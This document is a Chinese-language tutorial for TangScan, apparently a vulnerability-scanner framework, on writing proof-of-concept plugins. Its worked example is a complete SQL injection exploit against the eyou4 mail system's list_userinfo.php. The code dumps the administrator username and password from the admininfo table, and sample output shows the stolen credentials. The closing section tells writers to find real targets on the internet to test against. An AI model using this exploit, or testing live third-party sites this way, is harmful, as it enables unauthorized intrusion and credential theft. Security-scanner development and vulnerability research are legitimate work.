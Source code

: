 ==================
快速入门
==================

简介
=============
该文档能够帮助您快速的理解 **TangScan** 中 POC 的格式, 以及编写一个简单完整的 POC , 下面就让我们开始这一段旅程。




环境配置
=============
工欲善其事必先利其器, 在开发 POC 之前, 首先应该把环境搭建起来。

1. POC 由 python 编写, 所以 python 也是必不可少的, `python下载地址 <https://www.python.org/downloads/>`_
2. 下载地址 ::

    $ git clone https://github.com/wooyun/TangScan.git

   或者点击 `下载 <https://github.com/WooYun/TangScan/archive/master.zip>`_

3. 进入编写 POC 的工作目录 ::

    cd TangScan/tangscan

4. 希望POC编写者能够遵循 python  `pep8 规范 <http://legacy.python.org/dev/peps/pep-0008/>`_


编写POC
==============
下面我们以 ``http://www.wooyun.org/bugs/wooyun-2014-058014`` 中的 eyou4 的 ``/php/bill/list_userinfo.php`` 注入为例子,
开始编写这个漏洞的 POC 。

导入
-------------
.. code-block:: python
    :linenos:

    #! /usr/bin/env python
    # -*- coding: utf-8 -*-

    import re
    import hashlib

    from thirdparty import requests
    from modules.exploit import TSExploit

代码解释::

    line 4: 为了能够匹配网页内容, 我们需要import re
    line 5: 为了能够计算md5，我们需要import hashlib
    line 7: TangScan 还自带了一些比较好用的第三方库, 在这里我们import requests来处理http请求
    line 8: 编写TangScan POC不可缺少的一个类 TSExploit


定义TangScan类
------------------
.. code-block:: python
    :linenos:

    class TangScan(TSExploit):
        ... ...

代码解释::

    line 1: 定义TangScan类, 并且继承于TSExploit


填写漏洞信息
-------------------
.. code-block:: python
    :linenos:

    def __init__(self):
        super(self.__class__, self).__init__()
        self.info = {
            "name": "eyou4 list_userinfo.php sql 注入漏洞",  # POC 的名称
            "product": "eyou",  # POC 所针对的应用, 在 tangscan 主页上展示出所有的应用
                                # 名称必须和 tangscan 主页上的一致(大小写敏感)
            "product_version": "4",  # 应用版本号
            "desc": """
                eyou4 邮件系统中 /php/bill/list_userinfo.php 中的 cp 参数存在注入
            """,  # 漏洞描述
            "license": self.license.TS,  # POC 的版权信息
            "author": ["wooyun"],  # POC 编写者
            "ref": [
                {self.ref.wooyun: "http://www.wooyun.org/bugs/wooyun-2014-058014"},  # 乌云案例链接
            ],
            "type": self.type.sql_injection,  # 漏洞类型, 在详细介绍中列举了所有 POC 的类型
            "severity": self.severity.medium,  # 漏洞的危害等级, 在详细介绍中列举了所有 POC 的危害等级
            "privileged": False,  # 是否需要登录
            "disclosure_date": "2014-07-23",  # 漏洞的公布时间
            "create_date": "2014-09-23",  # POC创建时间
        }

代码解释::

    line 1: 定义TangScan中 __init__ 方法
    line 2: 调用父类 __init__ 方法
    line 3: 定义 info 属性, info 是 python 中一个字典类型
    line 10: 选择POC的版权信息, 在 self.license 中已经定义了几种license
    line 15: 漏洞类型, 在 self.type 中已经定义了几种type

* `self.license <detail.html#license>`_
* `self.type <detail.html#type>`_
* `self.severity <detail.html#severity>`_


注册POC所需选项
-----------------
然后继续在 ``__init__`` 方法下继续调用 ``register_option`` 方法, 该方法用于注册 POC 所需参数。

.. code-block:: python
    :linenos:

        self.register_option({
            "url": {
                "default": "",
                "required": True,
                "choices": [],
                "convert": self.convert.url_field,
                "desc": "target url"
            }
        })


代码解释::

    line 1: 调用 regsiter_option 方法注册所需参数
    line 2: 我们所需的参数是 url
    line 3: 设置参数 url 的默认值为 ""
    line 4: 设置参数 url 是否是必要参数
    line 5: 设置参数 url 的可选值, []为无可选值
    line 6: 设置参数 url 的类型, TangScan会判断以及自动将参数url转成POC中的url类型
            例如: www.example.com 转换成 http://www.example.com
    line 7: 设置参数 url 的描述, 这会在帮助中显示


另外需要注意的是在 ``verify`` 中只能使用 ``url`` 或者  ``host`` 和 ``port`` 选项。

也就是说, ``register_option`` 必须注册 ``url`` :

.. code-block:: python
    :linenos:

        self.register_option({
            "url": {
                "default": "",
                "required": True,
                "choices": [],
                "convert": self.convert.url_field,
                "desc": "target url"
            }
        })


或者 注册 ``host`` 和 ``port``:

.. code-block:: python
    :linenos:

        self.register_option({
            "host": {
                "default": "",
                "required": True,
                "choices": [],
                "convert": self.convert.str_field,
                "desc": "target host"
            },
            "port": {
                "default": "27017",
                "required": False,
                "choices": [],
                "convert": self.convert.int_field,
                "desc": "port number"
            }
        })


而且, 除了 ``host`` 和 ``port`` 参数, 其他参数必须将 required 设置为 False


注册POC所返回的结果
------------------------
然后继续在 ``__init__`` 方法下继续调用 ``register_result`` 方法, 该方法用于注册 POC 所返回的结果。

.. code-block:: python
    :linenos:

        self.register_result({
            "status": False,
            "data": {
                "user_info": {
                    "username": "",
                    "password": ""
                }
            },
            "description": "",
            "error": ""
        })

代码解释::

    line 1: 调用 register_result 方法注册POC返回结果
    line 2: POC 的成功失败状态, 必须
    line 3: POC 返回数据的存放处，必须名为 data, 而且data中的键都在 数据返回表 中已定义
    line 4: POC 的exploit模式将返回管理员用户名密码, 所以data下填写user_info
    line 5: POC 将返回 user_info 的 username
    line 6: POC 将返回 user_info 的 password
    ilne 9: POC 返回对人类可读性良好的信息, 最终会直接显示在漏洞报表中
    line 10: POC 执行失败或者异常的原因


定义verify方法
-------------------------
经过上面一些步骤, 我们已经填写好了 POC 的相关信息, 定义了输入和输出, 下面我们就来到了 POC 中一个极为重要的执行体 ``verify`` 方法。
``verify`` 顾名思义, 仅做验证目标网站是否存在漏洞, 不应存在恶意攻击行为, 不应该使用waf敏感的函数, 例如 mysql 中的 ``load_file`` 或 ``into outfile`` 等。
``verify`` 方法中只能使用 ``url`` 或者 ``host`` 和 ``port`` 做组合 两种类型作为输入参数。

.. code-block:: python
    :linenos:

    def verify(self):
        self.print_debug("verify start")

        re_version_pattern = re.compile(r'~~~(.+?)~~~', re.IGNORECASE | re.DOTALL | re.MULTILINE)
        cookies = {'cookie': 'admin'}
        exp_url = ("{domain}/php/bill/list_userinfo.php?domain=fatezero.org&ok=1&cp=1 union "
                   "select concat(0x7e7e7e,@@version,0x7e7e7e),2,3,4,5%23".format(domain=self.option.url))

        try:
            response = requests.get(exp_url, cookies=cookies, timeout=15, verify=False)
        except Exception, e:
            self.result.error = str(e)
            return

        re_result = re_version_pattern.findall(response.content)
        if len(re_result) == 0:
            self.result.status = False
            return

        self.result.status = True
        self.result.data.db_info.version = re_result[0]
        self.result.description = "目标 {url} 存在sql注入, 目标使用数据库版本为: {db_version}".format(
            url=self.option.url,
            db_version=re_result[0]
        )


代码解释::

    line 1: 定义 verify 方法
    line 2: 调用 print_debug 方法输出调试信息, 在选择调试模式下, 会将此消息输出
    line 7: self.option.url 就是我们所定义输入的 url , 在这里可以获取用户在命令行输入的 url
            例如: 使用 self.option.xxx 就可以获取在命令行输入的 xxx 的值
    line 20: self.result.status 就是我们所定义输出的 status, 检测目标url存在漏洞, 设置 self.result.status ＝ True
            例如: 使用 self.result.xxx 就可以获取或设置result 的结果
    line 22: 设置 result.description, 最终会在报表中直接显示



定义exploit方法
-------------------------
经过上一步, 我们完成了 ``verify`` 方法的实现, 下面我们继续实现 ``exploit`` 方法。
``exploit`` 方法带着攻击意图, 为了获取管理员信息, 直接获取服务器权限等, 能够方便的让安全服务人员使用。

.. code-block:: python
    :linenos:

    def exploit(self):
        self.print_debug("exploit start")

        re_userinfo_pattern = re.compile(r'~~~(\w+?)\|\|\|(\w+?)~~~', re.IGNORECASE | re.DOTALL | re.MULTILINE)
        cookies = {'cookie': 'admin'}
        exp_url = ("{domain}/php/bill/list_userinfo.php?domain=fatezero.org&ok=1&cp=1 union select concat(0x7e7e7e,"
                   "oid,0x7c7c7c,password,0x7e7e7e),2,3,4,5 from admininfo%23".format(domain=self.option.url))

        try:
            response = requests.get(exp_url, cookies=cookies, timeout=15, verify=False)
        except Exception, e:
            self.result.error = str(e)
            return

        re_result = re_userinfo_pattern.findall(response.content)
        if len(re_result) == 0:
            self.result.status = False
            return

        self.result.status = True
        self.result.data.user_info.username = re_result[0][0]
        self.result.data.user_info.password = re_result[0][1]
        self.result.description = "目标 {url} 存在sql注入, 目标管理员用户: {username}, 密码: {password}".format(
            url=self.option.url,
            username=self.result.data.user_info.username,
            password=self.result.data.user_info.password
        )


代码解释::

    line 1: 定义 exploit 方法
    line 2: 调用 print_debug 方法输出调试信息, 在选择调试模式下, 会将此消息输出
    line 4: 建立获取user_info的正则表达式, 建议在敏感信息周边加上特殊符号以便于正则获取, 也可以大程度减少误报
    line 15: 使用正则获取html页面中的信息
    line 20: 获取到敏感信息之后, 将status设置为 True
    line 21: 通过self.result.data.user_info.username = re_result[0][0] 可以很简单的设置结果中的username
    line 22: 通过self.resutl.data.user_info.password = re_result[0][1] 可以很简单的设置结果中的password


如果 ``exploit`` 和 ``verify`` 一样, 那么可以简单的这样做。

.. code-block:: python
    :linenos:

    def verify(self):
        # some code
        # ... ...

    def exploit(self):
        self.verify()

main入口
---------------
终于到了这一步, 我们只要简单的将这3行代码放到文件的最底处即可。

.. code-block:: python
    :linenos:

    if __name__ == '__main__':
        from modules.main import main
        main(TangScan())


代码解释::

    line 2: 导入 main 函数
    line 3: 执行 main 函数, 以TangScan的一个实例为参数

到这里, 我们完完整整的实现了一个POC, 带有verify模式和exploit模式的POC, 完整代码在 `github <https://github.com/WooYun/TangScan/blob/master/tangscan/eyou4_list_userinfo_sql_injection_20140422.py>`_ 。


执行POC
=======================

帮助信息
-----------------------
执行POC前, 我们先看一下POC的帮助信息。

.. code-block:: sh

    $ ython eyou4_list_userinfo_sql_injection.py -h
    usage: eyou4_list_userinfo_sql_injection.py [-h] [--debug]
                                                [--mode {verify,exploit}] --url
                                                URL

    optional arguments:
      -h, --help            show this help message and exit
      --debug               显示测试信息
      --mode {verify,exploit}
                            POC 执行模式, default: verify [str_filed]
      --url URL             目标 url [url_field]

上面我们可以看到 ``-h`` 帮助参数, ``--debug`` 调试参数, ``--mode`` 执行模式, ``--url`` 目标url 。
其中 ``-h --debug --mode`` 都是系统附加, ``--url`` 是我们 POC 自己定义, 并且从上面信息可以看到 url 参数类型是 ``url_field``

执行信息
-------------------------
好了, 写了那么久, 总应该执行看一下效果了

.. code-block:: sh

    $ python eyou4_list_userinfo_sql_injection.py --url http://www.target.com --mode exploit
    [POC 编写者]
        ['wooyun']
    [风险]
        目标 http://www.target.com 存在 eyou4 list_userinfo.php sql 注入漏洞
    [详细说明]
        eyou4 邮件系统中 /php/bill/list_userinfo.php 中的 cp 参数存在注入
    [程序返回]
        目标 http://www.target.com 存在sql注入, 用户: admin, 密码: password
    [危害等级]
        高
    [漏洞类别]
        注入
    [相关引用]
        * 乌云案例: http://www.wooyun.org/bugs/wooyun-2014-058014

攻击模式执行成功!!! 我们获取到了目标网站的管理员账号密码。

提交POC
=========================
既然都那么辛苦的写完了, 为什么不去提交一下呢? 在提交前希望能在互联网上找到几个实际例子进行测试, 确认 POC 没有误报的情况。

提交地址: `http://www.tangscan.com/ <http://www.tangscan.com/>`_



